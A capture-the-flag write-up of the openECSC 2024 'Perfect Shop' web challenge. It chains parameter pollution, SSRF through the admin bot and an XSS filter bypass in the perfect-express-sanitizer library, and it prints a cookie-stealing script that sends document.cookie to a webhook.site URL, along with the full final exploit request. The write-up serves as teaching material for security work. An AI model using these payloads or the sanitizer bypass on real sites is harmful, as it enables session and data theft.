

# CTF Info

- CTF name: openECSC 2024 - Round 1
- Challenge name: Perfect Shop
- Category: Web
# Description

```
Do you like perfect things? Check out my new online shop!

Site: http://perfectshop.challs.open.ecsc2024.it
```
# Initial thoughts

## First look at the webpage

During my first examination of the website, I observed that there is a range of products featured along with concise descriptions and prices.


Encountering a search bar triggered my suspicion due to its association with malicious activities such as [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting) or [SQL injections](https://en.wikipedia.org/wiki/SQL_injection). Moreover, I came across an admin page that allowed editing product details, but it appeared futile without the admin password.


At the end of every page, there is a "Report abuse" hyperlink that directs users to a page where they can report any problems related to particular products. Based on my experience, it became apparent that this could hold significance in the future, especially since we have the ability to input our own text. The presence of this functionality raised concerns about its safety, leading me to contemplate the intentions of the CTF author. Was it merely a tactic to deceive us, or could it serve a more profound purpose within the challenge? It is crucial to adopt the mindset of the author in order to unravel the true motives behind its inclusion.


## Source code analysis

After thoroughly exploring the website, it is necessary to delve into the source code that accompanies the challenge. To begin this process, let us carefully analyze the `docker-compose.yml` file in order to pinpoint the potential location of the flag.
Upon inspection, it becomes clear that the flag is stored within an environment variable on the web server.
Furthermore, the presence of a `headless` service suggests that the web server may communicate with it to transmit the flag. These observations form the basis of my initial hypothesis.


In this task, there are multiple files that need to be reviewed. After inspecting each file, it is evident that `server.js` is responsible for the majority of the webserver's logic. Despite the complexity within this particular file, our main objective is to carefully examine the flag processing procedure in a systematic manner, starting with the variable initialization on line 10.

```javascript
const FLAG = process.env.FLAG || 'openECSC{this_is_a_fake_flag}';
```

This code snippet is designed to fetch the `FLAG` environment variable. In case of failure, it sets the variable `FLAG` to a string that holds a default value. Let's now examine the section of the code where this variable is utilized.
As anticipated, the `FLAG` variable is used when submitting a report via a POST request.

```javascript
app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }
    
    fetch(`http://${HEADLESS_HOST}/`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

To gain a deeper understanding of this code snippet, let's analyze it step by step. Initially, it parses the `id` and validates whether it is a legitimate identifier. It proceeds to check if the `id` field is empty, if the `id` value is negative, or if the `id` value surpasses  specific limits. In the case of the latter condition, it calculates the count of entries stored in the `products` variable.

```javascript
const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }
```

But what even is the `id`? Let's submit a report and capture that request in [Burp Suite](https://portswigger.net/burp/communitydownload).

```http
POST /report HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://perfectshop.challs.open.ecsc2024.it
Connection: close
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

id=0&message=Test
```

Upon choosing to file a report for the `Amazing Product` (the initial item in the list), the `id` is displayed as 0. Next, we will move forward with submitting a report for the product following the `Amazing Product`, which is the `Fantastic Product`.

```http
POST /report HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://perfectshop.challs.open.ecsc2024.it
Connection: close
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

id=1&message=Test
```

It seems that the `id` functions as a numeric representation for every product, in order to identify the specific product that needs to be reported. Now that we have a clear understanding of the purpose of the `id`, let's explore the advantages this knowledge brings. We will delve into the actions that take place after the `id` verification.

```javascript
fetch(`http://${HEADLESS_HOST}/`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

To summarize, a JSON is sent to the `headless` server instructing it to carry out two requests:
- the first one is to directly access the page
- the second one is to navigate to view the product with the `id` appended to the URL.

It is important to mention that a **flag is stored as a cookie** during the second request. Furthermore, the `message` is completely ignored and holds no relevance to the task at hand. Upon analyzing this information, it is evident that there must be a method to insert XSS in some way. Initially, I considered altering the product description to execute XSS. However, I noticed that providing the admin password is necessary for editing a product. In the `server.js` file, there is a variable named `admin_password` initialized at the beginning of the script. Let's examine that variable.

```javascript
const admin_password = crypto.randomBytes(20).toString('hex');
```

I have provided an example password generated by this js function and checked its security level on this [website](https://www.security.org/how-secure-is-my-password/).


I believe this is impossible to crack before the conclusion of round 1. It is possible that there is another element within the call responsible for post editing that could be manipulated.

```javascript
app.post('/admin/:id', (req, res) => {
    const id = parseInt(req.params.id);
    if (isNaN(id) || id < 0 || id >= products.length) {
        res.status(404).send('Not found');
        return;
    }

    if (req.body.password !== admin_password) {
        res.locals.errormsg = 'Invalid password';
        res.render(' edit_product', { product: products[id] });
        return;
    }
  
    if (req.body.name) {
        products[id].name = req.body.name;
    }
  
    if (req.body.description) {
        products[id].description = req.body.description;
    }
  
    const price = parseFloat(req.body.price);
    if (!isNaN(price) && price >= 0) {
        products[id].price = req.body.price;
    }
  
    res.locals.successmsg = 'Product updated successfully';
    res.render('edit_product', { product: products[id] });
});
```

It seems very secure in my opinion. Moreover, if there had been any modifications to the items, it would have been easily detectable by all, given that almost every participant is using the identical system. As I tried to tackle this problem, a few individuals had already found success, and because the clues remained unaltered, I concluded that it couldn't be the answer. At this point, I couldn't identify a way in. Therefore, I started exploring the report submission feature, leveraging my expertise from CTF challenges and web pentests.

## Finding the Parameter Pollution vulnerability

I came across the ability to introduce an extra argument, `id`, through the utilization of a method called "[Parameter Pollution](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution)."
By including an additional `id` field in the POST request, it causes confusion on the server. Although the outcome may differ depending on the programming language, in Express JS, including multiple `id` fields leads to the values being stored in an array.

This concept can be confusing for beginners—I myself found it strange at first. Let's delve deeper into this behavior by creating our own docker container. I have added a print statement using `console.log(req.body.id)` in the function that manages the report submission to closely examine this behavior. This time, we will make use of the `Burp Repeater`, enabling us to repeat our requests and make minor adjustments. Initially, we will send a standard request and analyze the server's response to comprehend its behavior.

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&message=fgdf
```

The server prints:

```
web_1                | 2
```

Makes sense, right? Now, let's include another `id` just like this:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&id=4&message=fgdf
```

Here's how the server processes it:

```
web_1                | [ '2', '4' ]
```

This assistance is beneficial because I can exploit the `parseInt` function that analyzes the integer and validates the `id`. By taking advantage of this feature, we can manipulate the input to our benefit. Interestingly, the `parseInt` function only focuses on the first element of the array and ignores the others. Consequently, if we supply a valid `id` in the initial parameter, we can input any value we wish. It is time to experiment with this hypothesis.

```
web_1                | [ '2', 'Test' ]
```

The server showcases the new `id` next to a `Test` string. Furthermore, a notification "Report submitted successfully" appears on the frontend, verifying the successful completion of the operation. What response does the `headless` server provide to this data? We can examine the docker logs to find out. Among the many entries, a particular line highlights the request being executed.

```
headless-worker_1    | [2024-03-27 14:23:59,090][JOB 20261d76-a20e-475d-9cc8-11ab396f34ad][DEBUG]   - 200 http://web:3000/product/2,Test
```

We have successfully moved from Parameter Pollution to [Server-Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery). By injecting `/../../` into the second `id` parameter, we are able to manipulate this request. The modified request will now look like this: `http://web:3000/`. Nevertheless, there is an obstacle we need to overcome. Simply adding another URL will result in `http://web:3000/https://example.com`, which will not work as intended since the browser will interpret it as a specific path from web:3000.



Do you recall the search function we discussed earlier in this write-up? It might actually prove to be useful after all.

# The solution

I experimented with the `search` function, aiming to inject XSS payloads in a persistent manner. However, it became evident that there was a filter in place, which replaced my XSS attempts with empty strings. To overcome this obstacle, I referred to the XSS cheat sheet provided by [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) as well as a more advanced version available on [GitHub](https://github.com/fg0x0/XSS-Cheat-Sheets-2020). Unfortunately, none of the payloads I tried proved effective due to the limitation that the `search` query could not exceed 50 characters. Undeterred, I was determined to bypass the filter, so I meticulously examined the source code of `server.js` and discovered the presence of a sanitizer library called `Perfect Express Sanitizer`.

```javascript
[...]
const sanitizer = require("perfect-express-sanitizer");
[...]
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

It appears that all XSS vulnerabilities are being sanitized, with the exception of the `/admin` parameter. After realizing that we are unable to make any changes to the `/admin` parameter based on our previous examination, I became frustrated and spent several hours trying to figure out how I could leverage this situation to my advantage. The following day, I delved into the source code of the `Perfect Express Sanitizer` available on [GitHub](https://github.com/pariazar/perfect-express-sanitizer/tree/a4173c5061edd20ff13c354d2ed5a7b87e184973) to understand how the library determines whether the path being accessed is `/admin` or not. I carefully examined the `index.js` file, which is responsible for verifying if the path is whitelisted or not.

```javascript
const sanitize = require("./modules/");

function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}

module.exports = {
  clean: middleware,
  sanitize,
};
```

Interesting. If the URL path simply contains `/admin`, it counts as whitelisted? Let's try it. I used the search bar on the challenge page and wanted to know if XSS triggers in my browser with this simple URL: `http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E/admin`.

> Note: Simply inputting `<script>alert(1)</script>/admin` into the search function won't trigger the XSS vulnerability as expected; instead, our input will be sanitized. This occurs because the server encodes your query into URL format when it's not explicitly entered into the URL bar.


It was a success! I discovered a [zero-day vulnerability](https://en.wikipedia.org/wiki/Zero-day_(computing)) in a JavaScript library, which was an exciting and extraordinary finding.

Now, let's put this discovery into action: we aim to enable the headless server to access a website with the document.cookie added to the URL as a parameter. To achieve this, we can utilize [Webhook](https://webhook.site), a platform that allows us to generate a unique URL which will provide us with information about the request that accessed it. 

However, there is a limitation we need to consider: our XSS payload cannot exceed 50 characters, as anything longer will be discarded. To handle this, I decided to host a JavaScript script on my short domain, `herlove.fun`. 
Subsequently, I embarked on a search for compact XSS solutions. After thorough exploration, I stumbled upon an [excellent article](https://medium.com/taptuit/minifying-xss-f17d7dc241cf) that discussed minifying XSS techniques. In this article, the author presented a snippet of XSS code.

```html
<script src=//a.io>
```

The article explained that the inclusion of JavaScript code from external sources can be achieved by adding `src` to the `script` tag. Furthermore, he pointed out that there is no need to include the `http:` or `https:` prefixes, as the browser will automatically use the protocol of the web server, which is included at the start of the domain. So I created a file named `a.js` on a machine hosted on my domain, containing the specified content.

```javascript
window.location="https://webhook.site/8bb7d716-2b5e-43e4-a93a-9858c832ce0b?x=".concat(document.cookie)
```

This script navigates to the Webhook site and appends all cookies to the URL as parameters.

All preparations have been completed, the only remaining task is to hand in the report. To execute my final payload, I employed this HTTP request that merges Parameter Pollution, SSRF, and XSS to launch a potent attack.

```http
POST /report?=/admin HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://perfectshop.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


id=4&id=/../../search?q=<script src=//herlove.fun/a.js>/admin&message=
```

> Note: I also had to append a URL parameter to the `/report` path with `/admin`, as otherwise my XSS would have been sanitized. This is because `/report` isn't whitelisted either.

With all these steps completed, we can view the result on Webhook and confirm that we successfully retrieved the flag `openECSC{4in't_s0_p3rfect_aft3r_4ll}`.

# Lessons learned

- **Importance of conducting a thorough analysis** of webpage components, including search bars and admin interfaces, to identify potential vulnerabilities was emphasized by the challenge. Elements like the search bar can be exploited as entry points for attacks like Cross-Site Scripting (XSS) or SQL Injection.
- **Exploitation of whitelisting and blacklisting mechanisms** within the application, the challenge shed light on how these mechanisms function. The `Perfect Express Sanitizer` showcased insights into potential bypass techniques.
- **Creative thinking and experimentation**, the discovery and exploitation of the Parameter Pollution vulnerability highlighted the need for innovative approaches. Manipulating input parameters to confuse the server and induce unexpected behavior proved to be a potent attack vector. Simply reading the source code may not always suffice to comprehend the webserver's functionality.
- **Importance of precision in payload creation**, crafting payloads with meticulous attention to detail, like ensuring XSS payloads are within the 50-character limit, highlighted the critical aspect of precision in payload development.

# Conclusion

To summarize, my exploration of the Perfect Shop challenge involved navigating the website's interface and analyzing its features. I discovered potential vulnerabilities through the presence of a search bar and an admin page.
Further investigation into the source code provided valuable insights, particularly in how the server handled reports and the interplay between the 'id' parameter and the backend logic. By leveraging techniques like Parameter Pollution and SSRF, I was able to manipulate server requests and potentially access sensitive information.
During my attempts at XSS, I encountered a filtering mechanism, but I persisted in delving into the server's codebase. Through careful examination and experimentation, I identified a loophole in the sanitizer's whitelist mechanism, which opened up an avenue for XSS exploitation. Armed with this newfound knowledge, I devised a complex attack that combined Parameter Pollution, SSRF, and XSS. By meticulously crafting HTTP requests and strategically placing payloads, I orchestrated a sophisticated assault on the system. I successfully executed the final steps of the attack. Ultimately, my efforts paid off as I discovered the flag. This experience highlighted the importance of thorough analysis, creative problem-solving, and persistence when navigating complex cybersecurity challenges.